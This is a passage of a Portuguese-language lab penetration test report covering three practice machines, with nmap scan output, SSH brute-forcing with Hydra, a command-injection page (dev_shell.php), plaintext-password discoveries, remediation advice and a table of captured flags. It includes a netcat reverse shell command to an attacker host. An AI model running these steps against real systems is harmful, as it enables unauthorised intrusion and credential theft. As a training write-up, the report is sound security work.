Através da tentativa e erro com a utilização de uma wordlist personalizada foi testado n combinações para obter a credencial de acesso.

##### Correção da vulnerabilidade (Desafio 03)

É recomendado uma política de senhas altamente forte, com o uso de letras, caracteres e números. Também recomenda-se que ela possua mais de 8 caracteres.

O protolo ssh também já fornece a opção de autenticação em multiplo fator, que contempla uma camada de segurança adicional.

##### Gravidade (Desafio 03)

Alta

##### Código de prova de conceito (Desafio 03)

Através da wordlist previamente coletada através do conteúdo do site, realizei o brute force com a ferramenta hydra.


##### Captura de tela inicial do shell (Desafio 03)



##### Escalonamento de privilégios (Desafio 03)

Através da versão do kernel linux foi realizado uma pesquisa por CVE que possa apoiar na tarefa.



##### Informações adicionais sobre o escalonamento de privilégios (Desafio 03)

##### Vulnerabilidade explorada (Desafio 03)

##### Explicação da vulnerabilidade (Desafio 03)

##### Correção da vulnerabilidade (Desafio 03)

##### Gravidade (Desafio 03)

##### Código de exploração (Desafio 03)

##### Captura de tela de prova (Desafio 03)

<div style="page-break-after: always;"></div>

#### IP 192.168.56.7 (Desafio 04)

##### Enumeração de Serviços (Desafio 04)

| Server IP Address | Ports Open (TCP)             | Ports Open (UDP) |
| ----------------- | ---------------------------- | ---------------- |
| 192.168.56.7      | 80, 25468                    |

##### Resultado da varredura de nmap (Desafio 04)

```shell
sudo nmap -p- -AsV --open 192.168.56.7
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-12 14:49 EST
Nmap scan report for 192.168.56.7
Host is up (0.00089s latency).
Not shown: 65533 closed ports
PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 4 disallowed entries
| /login.php /dev_shell.php /lat_memo.html
|_/passwords.html
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesnt have a title (text/html).
25468/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u2 (protocol 2.0)
| ssh-hostkey:
|   2048 84:f2:f8:e5:ed:3e:14:f3:93:d4:1e:4c:41:3b:a2:a9 (RSA)
|   256 5b:98:c7:4f:84:6e:fd:56:6a:35:16:83:aa:9c:ea:f8 (ECDSA)
|_  256 39:16:56:fb:4e:0f:50:85:40:d3:53:22:41:43:38:15 (ED25519)
MAC Address: 08:00:27:C6:EB:08 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.89 ms 192.168.56.7

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.15 seconds
```

##### Vulnerabilidade de shell explorada inicialmente (Desafio 04)

Com a listagem dos diretórios e arquivos disponibilizados pelo servidor web, parti para a análise dos mesmo.



Na análise da pagína web ```robots.txt``` foi verificada a existência da página ```dev_shell.php```



##### Informações adicionais sobre onde o shell inicial foi adquirido (Desafio 04)

A página ```dev_shell.php``` possibilita a inserção de parâmetros para a inteção com o shell do servidor.

##### Explicação da vulnerabilidade (Desafio 04)

Através de parâmetros não tratados é possível coletar evidências a partir desta interação. Possibilitando assim um shell reverso.

##### Correção da vulnerabilidade (Desafio 04)

É necessário fazer a tratativa dos parâmetros do formulário da página ```dev_shell.php```, a linguagem já proporciona de módulos para fazer estatratativa, como a por exemplo a função system.

##### Gravidade (Desafio 04)

Alta

##### Código de prova de conceito (Desafio 04)

Foi realizada a execução do nc para iniciar o shell reverso, passando como comando a execução do binário do mesmo. ```/bin/nc.traditional 192.168.56.8 4444 -e /bin/bash```


##### Captura de tela inicial do shell (Desafio 04)

Estabelecendo a conexão assim através do shell reverso.




##### Escalonamento de privilégios (Desafio 04)

Para escalonar o privilégio foi analisado o conteúdo contido na máquina

##### Informações adicionais sobre o escalonamento de privilégios (Desafio 04)

Através da análise do conteúdo do diretório dos usuários, foi coletada a flag de usuário e também um arquivo html "escondido". Neste arquivo estava listado os usuários da máquina e também as suas credenciais


##### Vulnerabilidade explorada (Desafio 04)

Análise de arquivos.

##### Explicação da vulnerabilidade (Desafio 04)

Usuários possuem o hábito em armazenar credenciais em texto plano e armazenar a mesma em locais inseguros para guardar tais informações. Neste caso foi armazenado um arquivo com a senha de todos os usuários.

Vemos que mesmo deixando este arquivo como "escondido" é possível provar a sua existência com uma simples listagem.

##### Correção da vulnerabilidade (Desafio 04)

É recomendado que seja utilizado aplicações que realizam o trabalho de um cofre. Onde armazenam as credenciais de segurança em um ambiente isolado. Não deve-se armazenar a credencial em texto plano e muito menos armazenar dentro do próprio servidor.

##### Gravidade (Desafio 04)

Crítica

##### Código de exploração (Desafio 04)

##### Captura de tela de prova (Desafio 04)




<div style="page-break-after: always;"></div>

#### IP 192.168.56.9 (Desafio 05)

##### Enumeração de Serviços (Desafio 05)

| Server IP Address | Ports Open (TCP)             | Ports Open (UDP) |
| ----------------- | ---------------------------- | ---------------- |
| 192.168.56.9      | 22, 80, 139, 445, 8009, 8080 |

##### Resultado da varredura de nmap (Desafio 05)

```shell
$ sudo nmap -p- -AsV --open 192.168.56.9

Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-12 16:40 EST
Nmap scan report for 192.168.56.9
Host is up (0.00097s latency).
Not shown: 65529 closed ports
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesnt have a title (text/html).
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
| ajp-methods:
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http        Apache Tomcat 9.0.7
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.7
MAC Address: 08:00:27:4A:36:84 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h39m58s, deviation: 2h53m12s, median: -1s
|_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: basic2
|   NetBIOS computer name: BASIC2\x00
|   Domain name: \x00
|   FQDN: basic2
|_  System time: 2021-11-12T16:40:32-05:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-11-12T21:40:32
|_  start_date: N/A

TRACEROUTE
HOP RTT     ADDRESS
1   0.97 ms 192.168.56.9

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.29 seconds
```

##### Vulnerabilidade de shell explorada inicialmente (Desafio 05)

Através da listagem do conteúdo do servidor web, parti para as análises de páginas e diretórios do mesmo.



Com indícios do nmap, evidência coletada a partir da página dev.txt.html e j.txt, foi possível realizar a enumeração do samba.





Através da enumeração de usuários da aplicação samba foi possível coletar os usuários cadastrados na base.



##### Informações adicionais sobre onde o shell inicial foi adquirido (Desafio 05)

Através do brute force com o hydra.

##### Explicação da vulnerabilidade (Desafio 05)

Através da tentativa e erro com a utilização de uma wordlist padrão foi testado n combinações para obter a credencial de acesso.

##### Correção da vulnerabilidade (Desafio 05)

É recomendado uma política de senhas altamente forte, com o uso de letras, caracteres e números. Também recomenda-se que ela possua mais de 8 caracteres.

O protolo ssh também já fornece a opção de autenticação em multiplo fator, que contempla uma camada de segurança adicional.

##### Gravidade (Desafio 05)

Alta

##### Código de prova de conceito (Desafio 05)



##### Captura de tela inicial do shell (Desafio 05)



##### Escalonamento de privilégios (Desafio 05)

A partir da análise do conteúdo contido no diretório dos usuários, foi notado a presença de um arquivo ```pass.bak```, ao tentar a leitura com o cat é informado que o usuário da jan não possuí permissão, mas ao abrir o mesmo com o vim é possível coletar o seu conteúdo.





##### Informações adicionais sobre o escalonamento de privilégios (Desafio 05)

Através da utilização da credencial contida na máquina.

##### Vulnerabilidade explorada (Desafio 05)

Análise de arquivos.

##### Explicação da vulnerabilidade (Desafio 05)

Usuários possuem o hábito em armazenar credenciais em texto plano e armazenar a mesma em locais inseguros para guardar tais informações. Neste caso foi armazenado um arquivo de backup com a senha do usuário com privilégios root.

##### Correção da vulnerabilidade (Desafio 05)

É recomendado que seja utilizado aplicações que realizam o trabalho de um cofre. Onde armazenam as credenciais de segurança em um ambiente isolado. Não deve-se armazenar a credencial em texto plano e muito menos armazenar backups dentro do próprio servidor, recomenda-se a utilização de um servidor próprio para backup.

##### Gravidade (Desafio 05)

Crítica

##### Código de exploração (Desafio 05)

```shell
vim pass.bak
```

##### Captura de tela de prova (Desafio 05)



<div style="page-break-after: always;"></div>

## Itens Adicionais

Apêndice 1 - Prova e conteúdo local:

| **IP (Hostname)**         | **Conteúdo user.txt**            | **Conteúdo root.txt**                 |
| ------------------------- | -------------------------------- | ------------------------------------- |
| 192.168.56.3 (Desafio 01) |                                  | 74cc1c60799e0a786ac7094b532f01b1      |
| 192.168.56.5 (Desafio 02) | d41d8cd98f00b204e9800998ecf8427e |
| 192.168.56.6 (Desafio 03) | 7b6d1bb8ef5d8050604cee56447f911a |
| 192.168.56.7 (Desafio 04) | d41d8cd98f00b204e9800998ecf8427e | d41d8cd98f00b204e9800998ecf84561a     |
| 192.168.56.9 (Desafio 05) | d095823f11be4c3d4d4c1a240b347232 | d41d8cd98f00b20320j6as9800998ecf8427e |